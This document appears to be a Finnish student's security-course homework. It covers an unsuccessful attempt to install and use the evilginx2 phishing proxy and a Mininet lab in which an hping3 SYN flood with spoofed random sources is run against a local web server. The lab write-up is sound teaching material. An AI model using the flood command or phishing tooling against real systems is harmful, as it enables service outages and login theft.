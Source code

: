 ## h5 kotitehtävät 

# a) Tutustu seuraavaan työkaluun https://github.com/kgretzky/evilginx2Vastaa seuraaviin kysymyksiin: Asensitko työkalun, jos asensit niin kirjoita miten sen teit .Mitä teit työkalun kanssa? Onnistuitko huijaamaan liikennettä

Aloitin lataamalla evilginx2 kalille:

    sudo apt-get install evilginx2


![image](https://github.com/user-attachments/assets/9dc6392e-a99f-4015-9a95-2e0ceb0fad2a)

Ohjelman avaaminen 

    sudo evilginx2


![2](https://github.com/user-attachments/assets/a10f2cdf-8a82-445c-ab01-466dbd11df05)

lähdin etsimään miten evilginx2 voi testata paikallisesti löysin videon https://www.youtube.com/watch?v=z5gLXmXIyH8&t=2s&ab_channel=Cybertech-Arena ja https://www.youtube.com/watch?v=sZ22YulJwao&t=2s&ab_channel=JohnHammond


Yritin luoda huijaus sivuston jonka kautta olisin saanut esim. kirjautumis tietoja mutta en saanut sitä toimimaan.



# b) Luo ympäristö, jossa voit tehdä TCP SYN-Flood hyökkäyksen. Kirjoita miten loit mininet ympäristön ja miten toteutit hyökkäyksen.

Asensin mininetin, hping3 , xterm ja python3 kalilleni:

        sudo apt install mininet hping3 xterm python3



Tämän jälkeen käynnistin sen:

        sudo mn --topo single,3 --mac --switch ovsk --controller remote

Sain erroria openvswitchistä jonka jälkeen asensin sen uudelleen ja laitoin päälle:

![1](https://github.com/user-attachments/assets/fc7685ab-b3d8-4584-b2d9-05d7b8c318a1)

        sudo apt install openvswitch-switch
        sudo service openvswitch-switch start

Tämän jälkeen avataan xtermillä h1-h3


![term](https://github.com/user-attachments/assets/c927f203-e3cc-49f1-a7ba-cdf4fddf43e6)


avataan http palvelin h2 : 

![image](https://github.com/user-attachments/assets/0791f9e3-e31e-4dd3-830a-4b95bd2fd221)



käynnistetään hyökkäys h1:stä h2:seen : 

    hping3 -S --flood --rand-source -p 80 10.0.0.2  

![image](https://github.com/user-attachments/assets/033d44d2-985f-462b-af2f-b57ec2dbb578)



1. Aluksi loin mininet-ympäristön
2. H2 HTTP-palvelin päälle
3. H1 suorittaa TCP SYN-flood -hyökkäyksen

References:


https://github.com/yudasm/WHfB-o365-Phishlet

https://www.youtube.com/watch?v=sZ22YulJwao&t=2s&ab_channel=JohnHammond

https://www.youtube.com/watch?v=z5gLXmXIyH8&t=2s&ab_channel=Cybertech-Arena

https://www.firewall.cx/tools-tips-reviews/network-protocol-analyzers/performing-tcp-syn-flood-attack-and-detecting-it-with-wireshark.html

https://clouddocs.f5.com/training/community/firewall/html/archive/archive1/lab3/3a-03.html

https://nccs.gov.in/public/events/DDoS_Presentation_17092024.pdf
